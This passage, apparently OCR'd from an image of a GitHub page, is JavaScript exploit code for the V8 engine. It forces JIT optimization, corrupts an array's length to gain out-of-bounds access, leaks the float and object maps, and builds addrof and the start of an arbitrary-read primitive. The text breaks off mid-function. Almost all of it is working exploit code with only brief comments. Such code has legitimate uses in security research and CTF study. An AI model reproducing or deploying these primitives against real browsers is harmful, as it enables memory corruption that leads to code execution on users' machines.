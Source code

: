   ```jsx
      f(B,0);
  }
  
  // this will optimize it and it won't deopt
  // this loop needs to be less than the previous one
  for (i=0; i < 10000; i++) {
      f(A,41);
      f(B,41);
  }
  
  oob       = [1.1, 1.2, 1.3, 1.4];
  float_arr = [2.1, 2.2, 2.3, 2.4];
  obj_arr   = [{}].slice();
  
  // change the arr length
  f(oob, 0);
  
  print("[+] LENGTH   : " + oob.length);
  
  var buf     = new ArrayBuffer(8); 
  var f64_buf = new Float64Array(buf);
  var u64_buf = new Uint32Array(buf); 
  
  function ftoi(val) { 
  	f64_buf[0] = val;
  	return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
  }
  
  function itof(val) { 
  	u64_buf[0] = Number(val & 0xffffffffn);
  	u64_buf[1] = Number(val >> 32n);
  	return f64_buf[0];
  }
  
  function hex(b) {
  	return ('0x' + b.toString(16));
  }
  
  aa = (ftoi(oob[14])) 
  ah = aa >> 32n // float map
  al = aa & 0xffffffffn
  
  bb = (ftoi(oob[25])) 
  bh = bb >> 32n
  bl = bb & 0xffffffffn // obj map
  
  print ('[+] float map: ' + hex(ah));
  print ('[+] obj map  : ' + hex(bl));
  
  function addrof(obj) {
      obj_arr[0] = obj;
      oob[25] = itof((bh << 32n) | ah)
      let addr = obj_arr[0];
      oob[25] = itof((bh << 32n) | bl);
      return ftoi(addr) & 0xffffffffn;
  }
  
  cc = ftoi(oob[15])
  cl = cc & 0xffffffffn
  
  function aar(addr) {
  	// 15 offset is float_arr's elements
  	oob[15] = itof((addr - 0x8n << 32n) | cl)
  ```